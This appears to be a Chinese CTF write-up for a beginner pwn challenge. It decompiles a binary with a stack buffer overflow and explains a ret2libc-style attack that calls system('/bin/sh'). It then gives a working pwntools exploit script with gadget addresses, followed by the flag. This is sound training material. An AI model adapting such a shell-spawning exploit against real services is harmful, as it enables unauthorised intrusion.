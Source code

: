 # easypwn3
```
nc seclabs.cn 5118

急需pwn哥哥，白给分数了，现在开始学也能做得出来的，加油
```
[pwn3](attachment/pwn3)
## WriteUp
真正意义上开始接触pwn的一题(私以为)
ida打开F5
```c
void __cdecl main()
{
  char buf; // [rsp+0h] [rbp-20h]

  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  puts("# hack me #");
  system("date");
  printf("root@vm >", 0LL);
  read(0, &buf, 0x100uLL);
}
```

能看到存在一个很明显的栈溢出，可用空间也很大，但没有直接getshell的函数，但发现程序本身有使用system函数，并且如果你有搜索一下的话会发现程序里面还有"/bin/sh"字符串\
`.data:0000000000601060 sh              db '/bin/sh',0`\
那么就很明显了，通过劫持程序执行system函数，并控制传递的参数为"/bin/sh"，而这种方法我们成为ret2libc（中最简单的一种）


### EXP
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn3')
elf = ELF('./pwn3')

pop_ret = 0x400793
sh = 0x601060
system = 0x400570
payload = 'a'*0x28+p64(pop_ret)+p64(sh)+p64(system)
n.recvuntil('root@vm >')
n.sendline(payload)

n.interactive()
```


## flag

`flag{e14d1d7e-f595-11e9-9d8f-000c29ad2ad8}`
